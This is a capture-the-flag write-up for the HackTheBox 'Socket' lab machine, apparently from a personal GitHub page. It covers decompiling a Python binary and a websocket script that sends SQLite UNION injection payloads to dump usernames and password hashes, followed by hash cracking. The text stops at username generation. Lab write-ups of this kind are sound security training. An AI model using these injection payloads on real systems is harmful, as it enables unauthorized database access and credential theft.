 <h3> Socket HackTheBox </h3>

### Difficulty = Medium

### IP Address = 10.129.192.218

Nmap Scan
![image](https://user-images.githubusercontent.com/127159644/227752209-8bcc9dfd-8685-4712-aa97-27157cefbd71.png)

I added the domain to my `/etc/hosts/` file 

After checking the web server
![image](https://user-images.githubusercontent.com/127159644/227752256-e92d99e0-3e8d-4e55-a8c8-bca0c05f4ec9.png)

The only function there is that it checks converts a string to a qr code or it decodes a qr code and shows it content

THere's a given file which can be downloaded
![image](https://user-images.githubusercontent.com/127159644/227752314-2284d46b-4768-4e7a-9dd7-a0eb2ec0be61.png)

After downloading the file given which turns out to be a zip file i extracted it
![image](https://user-images.githubusercontent.com/127159644/227752448-abeca5ea-8dc0-455f-835f-38296891d3d4.png)

And its looks like a python compiled binary

So we can decompile it using uncompyle6 but before that we need to convert it to a pyc file

```
pyi-archive_viewer qreader
? X qreader
to filename? ./qreader.pyc
```

Then decompile using uncompyle6

```
uncompyle6 qreader.pyc > qreader.py
```

I encountered issues with this because it works with python3.8 and ever since i updated my linux its been misbehaving

So i used vps (thm attack box) for this
![image](https://user-images.githubusercontent.com/127159644/227753837-e8cd7d82-cd74-4b3d-bcd0-d512a8d915a6.png)

Here's the vulnerable part of the code

```
...
ws_host = 'ws://ws.qreader.htb:5789'
...
    def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)
...

```

It calls to the web socket hosted on port 5789 and sends the value of version in json format to the /version endpoint

After meeting chatgpt for a script to connect to the ws socket it formed this

```
from websocket import *
import sys, json

ws_host = 'ws://ws.qreader.htb:5789'

VERSION = '0.0.2'

ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```

Trying that works

```
➜  Socket python3.10 connect.py
{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
➜  Socket 
```

From here the best thing to try i guess is sql injection

I followed [Resource](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) and got that its sqlite injection

From there i got the user table and password table

Here's the script

```
from websocket import *
import sys, json

ws_host = 'ws://ws.qreader.htb:5789'

VERSION = '0.0.3" UNION SELECT username,password,3,4 from users-- -'

ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()


VERSION = '0.0.3" UNION SELECT group_concat(answered_by),group_concat(answer),3,4 from answers-- -'

ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```

Running that gives the password hash and a user
![image](https://user-images.githubusercontent.com/127159644/227754380-c1c77931-d900-4ee9-8dab-ac74897cfcde.png)

Using crackstation i got the password value for the hash
![image](https://user-images.githubusercontent.com/127159644/227754411-cde3b0c2-79bd-4f48-bf39-97b283f91531.png)

Now we have password how about user? 

If you notice the name `Thomas Keller` we can try get like possible usernames from it 

Using a [Script](https://github.com/PinkDraconian/CTF-bash-tools/blob/master/scripts/ctf-wordlist-names.sh)i generated possible usernames 
![image](https://user-images.githubusercontent.com/127159644/227754495-1e801d2c-c4c7-4121-8386-bf4a0d8bf54f.png)



